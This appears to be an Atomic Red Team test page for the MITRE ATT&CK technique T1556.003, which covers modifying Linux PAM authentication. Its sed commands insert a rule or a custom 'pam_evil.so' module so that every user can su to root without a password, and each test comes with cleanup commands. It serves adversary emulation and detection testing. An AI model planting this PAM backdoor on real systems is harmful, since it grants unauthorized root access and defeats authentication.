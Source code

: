 ```yaml
---
tags: [T1556_003, atomic_test]
filename: "[[T1556.003|T1556.003 - Modify Authentication Process: Pluggable Authentication Modules]]"
---
```


# T1556.003 - Modify Authentication Process: Pluggable Authentication Modules
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/003)
<blockquote>Adversaries may modify pluggable authentication modules (PAM) to access user credentials or enable otherwise unwarranted access to accounts. PAM is a modular system of configuration files, libraries, and executable files which guide authentication for many services. The most common authentication module is <code>pam_unix.so</code>, which retrieves, sets, and verifies account authentication information in <code>/etc/passwd</code> and <code>/etc/shadow</code>.(Citation: Apple PAM)(Citation: Man Pam_Unix)(Citation: Red Hat PAM)

Adversaries may modify components of the PAM system to create backdoors. PAM components, such as <code>pam_unix.so</code>, can be patched to accept arbitrary adversary supplied values as legitimate credentials.(Citation: PAM Backdoor)

Malicious modifications to the PAM system may also be abused to steal credentials. Adversaries may infect PAM resources with code to harvest user credentials, since the values exchanged with PAM components may be plain-text since PAM does not store passwords.(Citation: PAM Creds)(Citation: Apple PAM)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious PAM rule](#atomic-test-1---malicious-pam-rule)

- [Atomic Test #2 - Malicious PAM rule (freebsd)](#atomic-test-2---malicious-pam-rule-freebsd)

- [Atomic Test #3 - Malicious PAM module](#atomic-test-3---malicious-pam-module)


<br/>

## Atomic Test #1 - Malicious PAM rule
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 1|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #2 - Malicious PAM rule (freebsd)
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** b17eacac-282d-4ca8-a240-46602cf863e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 8|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "" "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "" "/#{pam_rule}/d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #3 - Malicious PAM module
Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient /tmp/pam_evil.so|
| index | Index where the rule is inserted. | integer | 1|
| path_to_pam_module_source | Path to PAM module source code. | path | PathToAtomicsFolder/T1556.003/src/pam_evil.c|
| path_to_pam_module | Path to PAM module object | path | /tmp/pam_evil.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```



#### Dependencies:  Run with `sh`!
##### Description: The PAM development library must be installed to build the PAM module
##### Check Prereq Commands:
```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```
##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})
##### Check Prereq Commands:
```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```




<br/>
